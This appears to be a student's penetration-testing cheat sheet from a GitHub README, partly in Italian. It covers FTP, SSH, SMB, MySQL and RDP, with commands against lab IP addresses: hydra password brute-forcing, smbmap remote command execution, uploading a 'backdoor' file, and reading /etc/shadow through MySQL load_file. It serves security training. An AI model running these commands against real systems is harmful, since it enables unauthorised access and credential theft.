




# Protocols-FTP-21-SSH-22-SMB-139-445-MySQL-3306-and-RDP-3389
Let's see the protocols: FTP(21), SSH(22), SMB(139-445), MySQL(3306) and RDP(3389)

# Introduction of protocols
## File Transfer Protocol
FTP (21): File Transfer Protocol is a standard network protocol for transferring files between a client and a server over a TCP/IP network. FTP uses port 21 for control messages and port 20 for data transfer. 
 

## Secure Shell
SSH (22): Secure Shell is a cryptographic network protocol for secure remote login and other network services over an unsecured network. SSH uses port 22 by default, but it can be changed to any port. 
 

## Server Message Block
SMB (139-445): Server Message Block is a network protocol for sharing files, printers, and other resources on a local area network. SMB uses port 139 for NetBIOS session service and port 445 for direct TCP/IP connection. 
 

## MySQL
MySQL (3306): MySQL is an open-source relational database management system that uses Structured Query Language (SQL) to manipulate and query data. MySQL uses port 3306 by default, but it can be configured to use any port. 
 

## Remote Desktop Protocol
RDP (3389): Remote Desktop Protocol is a proprietary network protocol that allows a user to remotely access another computer through a graphical user interface. RDP uses port 3389 by default, but it can be modified to use any port.  
 

For the enumeration part of these protocols, I direct you to my nmap github repository.  
**https://github.com/SavioFengGit/Nmap-Active-Information-Gathering**  
For the exploitation part of these protocols with Metasploit framework, i direct you to my metasploit framework github repository.  
**https://github.com/SavioFengGit/The-Metasploit-Framework-MSF**

## My usefull list of command
### SMB 445
 - smbmap -u guest -p "" -d . -H 10.0.28.123 (tool di enumerazione, discover all shared folders and drives, vedi i permessi di guest su ogni folder, in questo caso è l'utente di default 
  senza password)
 - smbmap -H 10.0.28.123 -u administrator -p smbserver_771 -x 'ipconfig' (esegue il comando)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -L (lista tutti i drive)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$' (List contents of the directory of C:\ drive)
 - touch backdoor
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --upload '/root/backdoor' 'C$\backdoor'  (carichi un file)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' -r 'C$' (verifica se il file è stato inserito)
 - smbmap -H 10.0.28.123 -u Administrator -p 'smbserver_771' --download 'C$\flag.txt' (scarichi il flag)
 - smbmap -H 192.212.251.3 -u admin -p password1  (trovate le credenziali puoi usarle per vedere gli shares che sono solo di lettura o altro)
 - smbclient -L 192.126.66.3 -N (tool per l'accesso, vede se è permesso la connessione anonima "nullsession", Anonymous connection is allowed since shares are displayed without 
  requirement of password)
 - smbclient //192.144.106.3/public -N (su public)
 - smbclient //192.212.251.3/jane -U jane (vedi se esiste lo share di jane, potrebbe esistere, ma non è visualizzabile)
 - hydra -l admin -P /usr/share/wordlists/rockyou.txt 192.212.251.3 smb  (brute force per SMB)

### FTP 21
 - ftp 192.235.127.3 21 (puoi provare anonymous/anonymous per vedere se accetta la connessione anonima)
 - hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.235.127.3 ftp  (brute force con ftp per le credenziali)

### SSH 22
 - ssh root@192.201.39.3 (login con root)
 - hydra -l student -P /usr/share/wordlists/rockyou.txt 192.40.231.3 ssh (attacco a dizionario sull'utente student)
 - hydra -L /usr/share/wordlists/metasploit/unix_users.txt -P /usr/share/wordlists/metasploit/unix_passwords.txt 192.235.127.3 ssh(brute force con ftp per le credenziali)

### MySQL 3306
 - mysql -h 192.71.145.3 -u root (logghi nel db come root)
 - show databases; (mostra i db)
 - use books; (vai sul db books)
  select count(*) from authors; (fai una query)
  select load_file("/etc/shadow");  (query dove prendi l'hash della password di root)
 - hydra -l root -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt 192.149.194.3 mysql (attacco a dizionario su mysql per l'utente root)

### RDP 3389
 - hydra -L /usr/share/metasploit-framework/data/wordlists/common_users.txt -P /usr/share/metasploit-framework/data/wordlists/unix_passwords.txt rdp://10.0.0.31 -s 3333 (esegue un brute force su rdp)
 - xfreerdp /u:administrator /p:qwertyuiop /v:10.0.0.31:3333  (esegue la connessione con le credenziali)

#Author
<b>Xiao Li Savio Feng</b>

